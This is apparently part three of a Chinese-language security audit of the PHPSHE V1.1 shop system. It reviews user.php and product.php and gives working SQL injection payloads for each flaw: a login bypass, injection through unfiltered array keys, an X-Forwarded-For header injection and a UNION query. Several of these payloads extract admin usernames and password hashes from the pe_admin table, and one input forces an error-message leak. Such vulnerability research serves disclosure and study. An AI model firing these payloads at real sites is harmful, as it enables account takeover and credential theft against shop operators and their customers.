## **PHPSHE V1.1 （三）**

### **user.php**
接下來，我們來看看`user`模塊。

```php
//Line:10

case 'login':
    if (isset($_p_pesubmit)) {
        $_p_info['user_pw'] = md5($_p_info['user_pw']);
        if ($info = $db->pe_select('user', $_p_info)) {
```

亮點在這裡`if ($info = $db->pe_select('user', $_p_info)) {`，只要$info不為空就成功登入了。
<p>
簡單來一發萬能密碼,用戶名：<pre>' or 1=1-- -</pre>，密碼隨意就ok了


### **【Bug 0x09: SQL注入 任意用戶登入】**

URL:

<pre>
/index.php?mod=user&act=login
</pre>

DATA:
<pre>
info%5Buser_name%5D=1' or 1=1-- -
&info%5Buser_pw%5D=123456
&pesubmit=
</pre>

繼續看
```php
//Line:168

case 'base':
    if (isset($_p_pesubmit)) {
        if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {
            pe_success('基本訊息修改成功！');
        }
        else {
            pe_error('基本訊息修改失敗...');
        }
    }
    $info = $db->pe_select('user', array('user_id'=>$_s_user_id));

    $seo = pe_seo($menutitle='基本訊息');
    include(pe_tpl('user_base.html'));
```

亮點在`if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {`。
<p>
我們跟進`pe_dbhold()`函數

```php
//Line:30

//資料庫安全
function pe_dbhold($str, $exc=array())
{
    if (is_array($str)) {
        foreach($str as $k => $v) {
            $str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
        }
    }
    else {
        $str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
    }
    return $str;
}
```

此處對陣列的值進行了過濾，但是對陣列的鍵沒有處理。
<br >
我們跟進`pe_update()`函數


```php
public function pe_update($table, $where, $set)
{
    //處理設置語句
    $sqlset = $this->_doset($set);
    //處理條件語句
    $sqlwhere = $this->_dowhere($where);
    return $this->sql_update("update `".dbpre."{$table}` {$sqlset} {$sqlwhere}");    
}
```

### **【Bug 0x06】** 一樣，經過`_dowhere()`處理、一樣可以對其進行注入。

```【Bug 0x09: SQL注入 獲取任意資料庫數據】```
<p>
URL:
<pre>
/index.php?mod=user&act=base
</pre>

<p>
DATA:
<pre>
info%5Buser_address`%3D(select concat(0x7e,admin_name,0x7e,admin_pw,0x7e) from pe_admin limit 1) , `user_tname%5D=1
</pre>


**product.php**
<p>
第一個操作**商品諮詢**就可能存在一個小BUG。

```php
//Line:5

case 'askadd':
    if (isset($_p_pesubmit)) {
        ...
        $info['ask_text'] = pe_texthtml(pe_dbhold($_p_ask_text));
        ...
        $info['user_ip'] = pe_ip();
        if ($db->pe_insert('ask', $info)) {
            ...
            $info['ask_text'] = htmlspecialchars($_p_ask_text);
```


## **【Bug 0x10: 訊息洩漏 Warning】**
POST:
<p>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<br>
DATA:
<p>
<pre>ask_text[]=asfasdfasfs&pesubmit=true</pre>
<br>

錯誤訊息
<pre>
Warning: nl2br() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\include\function\global.func.php
Warning: htmlspecialchars() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\module\index\product.php
</pre>

然後還有一個亮點`$info['user_ip'] = pe_ip();`，我們跟進`pe_ip()`函數

```php
//Line : 333

//獲取IP
function pe_ip()
{
    if (isset($_SERVER)){
        if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
            $realip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    ...
    return $realip;
```

明顯的XFF注入。只要在寫入資料庫的時候用到了這個函數獲取IP的地方、、都是一樣的注入。

### **【Bug 0x11: SQL注入 獲取任意資料庫數據】**
POST:
<br>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<p>
x-forwarded-for:
<pre>
1', `ask_replytext` = (select concat(0x7e,admin_name,0x7e,admin_pw,0x7e)  from pe_admin limit 1)#
</pre>
返回的訊息在商品、賣家回覆裡。
<br >
再往下看，在 **商品列表** 操作中、又是一個大大的BUG出現了。

```php
//Line:83

case 'list':
    ...
    $_g_keyword && $sqlwhere .= " and `product_name` like '%{$_g_keyword}%'";
    ...
    $info_list = $db->pe_selectall('product', $sqlwhere, '*', array(16, $_g_page));
```

WHERE條件帶入了未經過濾的`$_g_keyword`變數。
<br>
### **【Bug 0x12: SQL注入 獲取任意資料庫數據】**
URL:
```php
/index.php?mod=product&act=list&id=1&keyword=%' union select 1,admin_pw,1,1,1,admin_name,1,1,1,1,1,1,1,1,1,1,1,1,1 from pe_admin-- -
```